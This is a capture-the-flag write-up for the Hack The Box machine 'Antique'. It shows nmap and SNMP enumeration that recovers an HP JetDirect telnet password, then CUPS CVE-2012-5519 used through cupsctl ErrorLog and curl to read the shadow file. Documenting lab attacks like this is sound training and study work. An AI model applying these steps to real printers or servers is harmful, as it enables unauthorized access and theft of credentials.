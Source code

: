 ```yaml
---
title: "[HTB] Machine: Antique"
description: "[HTB] Machine: Antique"
date: 2023-08-08
menu:
  sidebar:
    name: "[HTB] Machine: Antique"
    identifier: htb-machine-Antique
    parent: htb-machines-linux
    weight: 10
hero: images/antique.png
tags: ["HTB", "printer", "jetdirect", "telnet", "snmp", "snmpwalk", "cups", "cve-2012-5519", "hashcat", "shadow"]
---
```


# Antique
## Enumeration
- `nmap`

```
└─$ nmap -sC -sV -Pn 10.10.11.107
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-09 15:59 BST
Nmap scan report for 10.10.11.107 (10.10.11.107)
Host is up (0.12s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.94%I=7%D=8/9%Time=64D3A9E6%P=x86_64-pc-linux-gnu%r(NULL,
SF:F,"\nHP\x20JetDirect\n\n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPass
SF:word:\x20")%r(tn3270,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(GetRequ
SF:est,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(HTTPOptions,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(RTSPRequest,19,"\nHP\x20JetDirect\n\nPas
SF:sword:\x20")%r(RPCCheck,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSV
SF:ersionBindReqTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSStatusRe
SF:questTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Help,19,"\nHP\x20Je
SF:tDirect\n\nPassword:\x20")%r(SSLSessionReq,19,"\nHP\x20JetDirect\n\nPas
SF:sword:\x20")%r(TerminalServerCookie,19,"\nHP\x20JetDirect\n\nPassword:\
SF:x20")%r(TLSSessionReq,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Kerber
SF:os,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(SMBProgNeg,19,"\nHP\x20Je
SF:tDirect\n\nPassword:\x20")%r(X11Probe,19,"\nHP\x20JetDirect\n\nPassword
SF::\x20")%r(FourOhFourRequest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(
SF:LPDString,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPSearchReq,19,"
SF:\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPBindReq,19,"\nHP\x20JetDirec
SF:t\n\nPassword:\x20")%r(SIPOptions,19,"\nHP\x20JetDirect\n\nPassword:\x2
SF:0")%r(LANDesk-RC,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(TerminalSer
SF:ver,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(NCP,19,"\nHP\x20JetDirec
SF:t\n\nPassword:\x20")%r(NotesRPC,19,"\nHP\x20JetDirect\n\nPassword:\x20"
SF:)%r(JavaRMI,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(WMSRequest,19,"\
SF:nHP\x20JetDirect\n\nPassword:\x20")%r(oracle-tns,19,"\nHP\x20JetDirect\
SF:n\nPassword:\x20")%r(ms-sql-s,19,"\nHP\x20JetDirect\n\nPassword:\x20")%
SF:r(afp,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(giop,19,"\nHP\x20JetDi
SF:rect\n\nPassword:\x20");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 181.59 seconds

```
- `telnet`
```
└─$ telnet 10.10.11.107     
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: admin
Invalid password
Connection closed by foreign host.
```
- Nothing to see, so I scanned `UDP` ports
```
└─$ sudo nmap -sU -sV 10.10.11.107
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-09 16:38 BST
Stats: 0:09:01 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
Nmap scan report for 10.10.11.107 (10.10.11.107)
Host is up (0.10s latency).
Not shown: 999 closed udp ports (port-unreach)
PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server (public)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1013.71 seconds
```
- `snmp`
```
└─$ snmpwalk -v 2c -c public 10.10.11.107
iso.3.6.1.2.1 = STRING: "HTB Printer"
```
## Foothold/User
- According to this [post](http://www.irongeek.com/i.php?page=security/networkprinterhacking#JetDirect%20password%20notes) we can retrieve password
  - We need to ask for `.1.3.6.1.4.1.11.2.3.9.1.1.13.0`

```
└─$ snmpwalk -v 2c -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
```

- Now we need to convert it from hex to ascii

![](./images/1.png)

- Try password for `telnet`
  - `P@ssw0rd@123!!123`

![](./images/2.png)

- Let's call help menu

![](./images/3.png)

- Now let's try get execution and reverse shell

![](./images/4.png)
![](./images/5.png)

## Root
- Enumeration shows port `631` open

```
lp@antique:~$ netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN      1016/python3        
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
udp        0      0 0.0.0.0:161             0.0.0.0:*                    
```

- We can perform port forwarding using `chisel`
  - Or check the list of processes and take a guess
  - We see `cups` service
  - Checking config shows that indeed port `631` belongs to `cups`

![](./images/6.png)
![](./images/7.png)

- If we `curl` we see the version is `1.6.1`

![](./images/8.png)

- If we check [github post](https://github.com/p1ckzi/CVE-2012-5519/blob/main/cups-root-file-read.sh)
  - We see that we need to call `cupsctl ErrorLog={FILE}`
  - And then `curl 127.0.0.1:631/admin/log/error_log?`
  - So let's read `shadow` file
  - It works, but it's not crackable

![](./images/9.png)
